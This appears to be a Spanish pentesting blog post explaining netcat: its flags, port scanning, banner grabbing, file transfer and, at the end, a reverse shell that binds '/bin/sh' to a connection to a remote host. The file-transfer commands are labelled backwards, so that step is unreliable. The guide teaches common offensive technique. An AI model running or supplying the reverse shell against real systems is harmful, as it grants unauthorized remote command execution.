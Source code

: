 ```yaml
---
title: Netcat
author: J.Conde
date: 2022-08-16 11:16:00 -03000 
categories: [Hacking, Pentesting]
tags: [Pentesting, guide]
math: true
mermaid: true
---
```


## Índice
- [Definición](#definción)
- [Parámetros](#parámetros)
- [Escáneo de puertos](#escáneo)
- [Visualizar banner](#banner)
- [Enviar Archivos](#archivos)
- [Reverse Shell](#shell)

### Definción
Es una herramienta de red que permite a través de intérprete de comandos y con una sintaxis sencilla abrir puertos TCP/UDP en un HOST,
asociar una shell a un puerto en concreto y forzar conexiones UDP/TCP. Esta herramienta es conocida como la **navaja suiza** ya que sirve 
para todos en el mundo del hacking. 

### Parámetros 
- **-n** ➜ Deshabilita la resolución DNS 
- **-v** ➜ Modo verbose 
- **-l** ➜ Modo listener (Crear un handler)
- **-w** ➜ Timeout
- **-e** ➜ Ejecución de comandos 
- **-p** ➜ Puerto 

### Escáneo
Vemos un primer ejemplo, de un escaneo a un puerto en concreto.

```bash
nc -vw2 192.168.10.123 80
```
Tambien podemos hacer un escaneo por rangos. 

```bash
nc -vw2 192.168.10.123 1-100
```

### Banner
Podemos visualizar el banner para ver que servicio corre y versión. 

```bash
nc -nv 192.168.10.123 80
```

### Archivos
Podemos enviar archivos de un host a otro. Para enviar un archivo usaremos la siguiente sintaxis. 

```bash
nc 192.168.10.123 1111 > script.py
```
Para recibirlo ejecutamos lo siguiente.

```bash
nc -lvp 1111 < script.py
```

### Shell
Al igual que con python, php, bash, powershell, etc, podemos hacer una conexión para conseguir una shell. Primero nos ponemos a la 
escucha esperando la conexión. 

```bash
nc -lvnp 1111
```
Ahora que estamos a la escucha, vamos a enviarnos la shell, para poder ejecutar comandos del sistema. 

```bash
nc 192.168.10.123 1111 -e "/bin/sh"
```

